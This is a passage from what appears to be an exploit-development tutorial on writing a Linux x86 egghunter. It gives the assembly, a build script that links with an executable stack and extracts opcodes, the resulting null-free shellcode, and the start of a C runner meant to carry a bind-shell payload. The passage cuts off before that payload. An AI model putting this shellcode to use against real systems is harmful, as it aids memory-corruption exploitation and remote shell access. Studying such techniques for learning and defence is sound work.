 ```bash
    mov edi, edx        ; EDX register contains the memory address of writable page
    
    ; hunts for first 4 bytes of egg; scasd sets ZF when we find the match
    scasd               ; compares [EDI] to value in EAX register, increments EDI register by 4 
    jnz increase_address     ; jumps to inc_address when ZF is not set
    
    ; hunts for last 4 bytes of egg
    scasd               ; hunts for last 4 bytes of egg
    jnz increase_address

    ; jumps to the beginning of the shellcode
    jmp edi


```

## Assembling and linking

Now, we have completed writing the egghunter.nasm file.

I will Assemble and link it with the following complie.sh bash script:

```c
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'

echo '[+] Printing the Shellcode:'

objdump -d ./$1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

The shellcode output:

```c
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";
```

As we can see there are no NULL-BYTES within the shellcode generated.

I will insert the shellcode on the custom shellcode c program runner presented
which will get as input the egghunter shellcode, and the bind shell shellcode:

```c
#include <stdio.h>
#include <string.h>

unsigned char egghunter[] = \

"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";


unsigned char code[] = \

/* The Egg custom bytes: */
"\x50\x90\x50\x90\x50\x90\x50\x90"
/* The shellcode payload: */
```